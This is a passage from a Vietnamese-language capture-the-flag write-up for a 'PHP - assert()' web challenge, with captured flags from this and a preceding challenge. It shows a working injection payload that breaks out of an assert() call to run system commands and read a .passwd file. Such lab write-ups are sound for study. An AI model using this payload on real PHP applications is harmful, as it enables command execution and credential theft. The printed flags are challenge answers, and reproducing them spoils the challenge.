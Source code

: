 ```
Flag: Do_n0t_r3v0ke_3nc0d3dTokenz_Mam3ne-Us3_th3_JTI_f1eld
```

# 24. PHP - assert()

-Thử `?page=../` thì xuất hiện lỗi:

![1](img/24/Screenshot%20from%202023-01-16%2011-55-21.png)

- Đoán được cú pháp của server là:

```php
assert(strpos('include/'.$file.'.php', '..') === false)
```

- Thử inject: `?page=test' , '') or system('ls -a');//`

![1](img/24/Screenshot%20from%202023-01-16%2014-44-25.png)

- Lúc đó cú pháp sẽ là:

```php
assert(strpos('include/test.php', '') or system(ls -a); // '..') === false)
```

- cat .passwd thôi:

![1](img/24/Screenshot%20from%202023-01-16%2014-44-49.png)

```
Flag: x4Ss3rT1nglSn0ts4f3A7A1Lx
```

# 25. PHP - Filters

